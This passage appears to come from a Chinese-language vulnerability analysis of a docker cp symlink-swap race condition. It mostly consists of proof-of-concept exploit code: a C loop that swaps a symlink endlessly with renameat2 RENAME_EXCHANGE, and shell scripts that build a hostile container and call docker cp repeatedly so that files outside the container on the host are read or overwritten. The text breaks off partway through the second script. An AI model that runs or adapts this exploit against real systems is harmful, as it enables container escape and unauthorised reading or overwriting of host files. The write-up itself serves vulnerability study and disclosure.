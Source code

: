 ```
 
    /* Now we do a RENAME_EXCHANGE forever. */
    for (;;) {
        int err = renameat2(AT_FDCWD, symlink_path,
                            AT_FDCWD, stash_path, RENAME_EXCHANGE);
        if (err < 0)
            perror("symlink_swap: rename exchange failed");
    }
    return 0;
}
```  
  
  
  
run_read.sh 模拟受害者不断使用 docker cp 命令将容器内的文件复制到宿主机上的场景，一旦漏洞触发，容器将恶意符号链接在宿主机文件系统解析后指向的文件将被复制到受害者设定的宿主机目录下。  
  
  
run_read.sh 内容如下：  
```
SYMSWAP_PATH=/totally_safe_path
SYMSWAP_TARGET=/w00t_w00t_im_a_flag
 
# 创建flag
echo "SUCCESS -- COPIED FROM THE HOST" | sudo tee "$SYMSWAP_TARGET"
sudo chmod 000 "$SYMSWAP_TARGET"
 
# 构建镜像并运行容器
docker build -t cyphar/symlink_swap \
    --build-arg "SYMSWAP_PATH=$SYMSWAP_PATH" \
    --build-arg "SYMSWAP_TARGET=$SYMSWAP_TARGET" build/
ctr_id=$(docker run --rm -d cyphar/symlink_swap "$SYMSWAP_PATH")
 
# 不断执行docker cp命令
idx=0
while true
do
    mkdir "ex${idx}"
    docker cp "${ctr_id}:$SYMSWAP_PATH/$SYMSWAP_TARGET" "ex${idx}/out"
    idx=$(($idx + 1))
done
```  
  
  
  
run_write.sh 模拟受害者不断使用 docker cp 命令将宿主机上的文件复制到容器内的场景，一旦触发漏洞，受害者指定的宿主机文件（localpath）将覆盖容器内恶意符号链接在宿主机文件系统解析后指向的文件（w00t_w00t_im_a_flag）。  
  
  
run_write.sh内容如下：  
```
SYMSWAP_PATH=/totally_safe_path
SYMSWAP_TARGET=/w00t_w00t_im_a_flag
 
# 创建flag
echo "FAILED -- HOST FILE UNCHANGED" | sudo tee "$SYMSWAP_TARGET"
sudo chmod 0444 "$SYMSWAP_TARGET"
 
# 构建镜像并运行容器
docker build -t cyphar/symlink_swap \
    --build-arg "SYMSWAP_PATH=$SYMSWAP_PATH" \
    --build-arg "SYMSWAP_TARGET=$SYMSWAP_TARGET" build/
ctr_id=$(docker run --rm -d cyphar/symlink_swap "$SYMSWAP_PATH")
 
echo "SUCCESS -- HOST FILE CHANGED" | tee localpath
 
# 不断执行docker cp命令
while true
```